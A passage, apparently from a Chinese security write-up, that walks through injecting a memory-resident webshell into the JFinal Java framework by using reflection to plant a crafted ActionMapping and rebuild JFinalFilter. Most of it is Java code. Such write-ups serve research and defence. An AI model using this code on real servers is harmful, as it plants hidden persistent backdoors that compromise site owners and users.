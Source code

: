 构造恶意`JFinal`对象并设置`ActionMapping`属性

```java
Class<?> jfClazz = Class.forName("com.jfinal.core.JFinal");
// 拿到当前单例模式对象
Field me = jfClazz.getDeclaredField("me");
me.setAccessible(true);
JFinal instance = (JFinal) me.get(JFinal.class);
// 属性
Field mapping = instance.getClass().getDeclaredField("actionMapping");
mapping.setAccessible(true);
// 构造恶意的ActionMapping对象
ActionMapping actionMapping = new ActionMapping(r);
// 设置了ActionMapping对象的Routes属性还不够
// 需要调用ActionMapping的buildActionMapping把Routes转为Mapping
Method build = actionMapping.getClass().getDeclaredMethod("buildActionMapping");
build.setAccessible(true);
build.invoke(actionMapping);
// 设置属性
mapping.set(instance, actionMapping);
```

这一步也是至关重要，必须调用了`JFinal.initHandler`才可以调用到`ActionHandler.init`方法

调用`ActionHandler.init`方法传入上文设置的恶意`ActionMapping`才可以构造出恶意的`ActionHandler`

```java
Method initHandler = jfClazz.getDeclaredMethod("initHandler");
initHandler.setAccessible(true);
initHandler.invoke(instance);
```

构造一个新的`JFinalFilter`对象

```java
Class<?> filterClazz = Class.forName("com.jfinal.core.JFinalFilter");
JFinalFilter filter = (JFinalFilter) filterClazz.newInstance();
```

设置`jfinal`属性，对象的`final`属性操作比较麻烦

```java
Field field = filterClazz.getDeclaredField("jfinal");
field.setAccessible(true);
Field modifiersField = Field.class.getDeclaredField("modifiers");
modifiersField.setAccessible(true);
// 处理final问题
modifiersField.setInt(field, field.getModifiers() & ~Modifier.FINAL);
field.set(filter, instance);
```

构造一个空的`jfinalConfig`并设置到`JfinalFilter`对象中

```java
Field configField = filterClazz.getDeclaredField("jfinalConfig");
configField.setAccessible(true);
configField.set(filter,new EmptyConfig());
```
